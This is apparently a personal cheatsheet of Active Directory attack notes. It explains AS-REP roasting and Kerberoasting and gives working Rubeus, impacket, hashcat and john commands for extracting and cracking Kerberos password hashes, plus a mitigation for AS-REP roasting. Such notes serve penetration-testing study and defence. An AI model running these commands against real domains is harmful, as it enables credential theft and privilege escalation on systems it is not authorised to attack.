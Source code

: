 ```yaml
---
title: Active Directory (AD) Attacks
---
```


# AD Attack Cheatsheet

**Description: This is going to be a compilation of my notes on various *Active Directory (AD)* attacks. I may dive deeper into some attacks and go over creating a homelab vulnerable to these attacks and dive into tools to execute these attacks as well**

* [ASREPRoastable Accounts](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) - Active Directory user accounts that have the **DO NOT REQUIRE KERBEROS PREAUTHENTICATION** property enabled. This allows an attacker to request a Kerberos ticket without having to provide a password for **preauthentication**, just the *username* and the *domain* which can be easily found. The attacker can then use this ticket to access resources that the vulnerable account has authorization to access on the network.
	* An attacker could steal password hashes for *ASREProastable accounts* as well which can be done using a tool known as `Rubeus` from a Windows host. The attacker would use `Rubeus` to request a Kerberos ticket for the vulnerable account, then extract the password hash from the ticket. Once the hash is obtained, the attacker can then crack it via brute-force or a dictionary attack
		* `rubeus.exe asreproast` would find all accounts that don't require **Kerberos PreAuthentication** & extract their TGTs for offline cracking
			* You can also specify the format that you want the TGT to be outputted in: `rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt`
			* Then if you wanted to begin cracking it with `hashcat`, you'd run: `hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt`
	* An attacker could also use `GetNPUsers.py` from the `impacket` library to also steal password hashes from a Linux attack host
		* `impacket-GetNPUsers domain.local\vulnerable-user -dc-ip <insert DC IP addr here> -outputfile asrephashes.txt -no-pass` where `vulnerable-user` is the user who doesn't require Kerberos preauthentication
		* You can also specify a username list instead of a single username: `impacket-GetNPUsers domain.local\ -usersfile usernames.txt -dc-ip <insert DC IP addr here> -outputfile asrephashes.txt -no-pass`
	* **Mitigation**: Disable the **DO NOT REQUIRE KERBEROS PREAUTHENTICATION** property on all user accounts. If not possible, implement MFA for user accounts & monitor AD logs for such requests.
* [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast) - *lateral movement/privilege escalation technique* that targets accounts configured with *Service Principal Names (SPNs)* & requests a *Ticket Granting Service (TGS)* for any service account in the same domain
	* SPNs are unique IDs used by Kerberos to map service instances to service accounts in whose context the service is running
	* Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts sucha s *NT AUTHORITY\\Local Service*
	* An attacker only needs a valid domain account credentials (cleartext password or NTLM hash)
		* The permissions that the domain account has doesn't matter
	* We can use `bloodhound` queries to find all Kerberostable accounts within a domain 
	* We can use `impacket-GetUserSPNs` from the `impacket` library to perform kerberoasting
		* `impacket-GetUserSPNs -request -dc-ip <DC IP Addr> <FQDN>/<username> -outputfile hashes.kerberoast` 
			* This will prompt you for the domain password for the domain username that you specify
			* You can also specify the format that you want to output the hash in with the `-format` option with the two being either `john` or `hashcat`
		* After you get the TGS, you can crack the TGS to obtain the hash of the Kerberoasted user using either `john` or `hashcat`
			* `john hashes.kerberoast --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt`
			* `hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt`
	* You can also use `rubeus` to perform kerberoasting & you can have it either kerberoast a specific user or kerberoast any kerberoastable user that it can find:
		* `rubeus.exe kerberoast /output:hashes.kerberoast` to find a kerberoastable user & perform the attack on them